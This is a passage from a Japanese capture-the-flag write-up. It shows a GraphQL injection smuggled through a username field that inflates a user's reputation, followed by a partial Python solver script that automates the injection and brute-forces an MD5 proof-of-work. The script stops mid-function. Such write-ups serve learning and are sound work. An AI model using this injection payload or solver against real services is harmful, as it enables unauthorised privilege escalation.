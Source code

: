 よって、整合性を合わせて`username`には以下のような値を指定すれば良い。

```text
todayisnew"){intro:id reputation}tmp:user(username:"
```

- リクエストボディ

```json
{"username":"todayisnew\"){intro:id reputation}tmp:user(username:\"","validator":"Z2lkOi8vaGFja2Vyb25lL1VzZXIvMTg0MjY="}
```

実行するとReputationが100000以上になるため、プライベートプログラムに参加できる。

### ソルバ

若干ハードコード気味だが、レポートのIDに変動はなさそうなのでこれでも大丈夫そう。

- solver.py

```py:solver.py
#!/usr/bin/env python
import hashlib
import requests

TARGET = 'https://bounty-the-b4r.ctfz.one'
KEYS = list('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789/+=-_')

def register(user, password):
   requests.post(f'{TARGET}/api/user/register', json={'username': user, 'password': password})

def login(user, password):
  res = requests.post(f'{TARGET}/api/user/login', json={'username': user, 'password': password})
  return res.json().get('token')

def import_reputation(token):
  payload = 'todayisnew"){intro:id reputation}tmp:user(username:"'
  requests.post(f'{TARGET}/api/user/import_reputation', 
                      json={'username': payload, 'validator': 'Z2lkOi8vaGFja2Vyb25lL1VzZXIvMTg0MjY='},
                      headers={'Authorization': f'Bearer {token}'})

def join_program(token, pid):
  requests.post(f'{TARGET}/api/program/{pid}/join', headers={'Authorization': f'Bearer {token}'})

def search_pow(goal, pow):
  for i6 in KEYS:
      for i7 in KEYS:
          for i8 in KEYS:
              for i9 in KEYS:
                  text = pow + i6 + i7 + i8 + i9
                  hash = hashlib.md5(text.encode('utf-8')).hexdigest()
                  if hash == goal:
                    return text

def next_pow(token):
  res = requests.get(f'{TARGET}/api/user/info', headers={'Authorization': f'Bearer {token}'})
  goal = res.json().get('md5')
  pow = res.json().get('pow')
  print(f'goal: {goal}')
  print(f'pow: {pow}')
  return search_pow(goal, pow)

def get_report(token):
  for i in range(0x15, 0x20):
    pow = next_pow(token)
```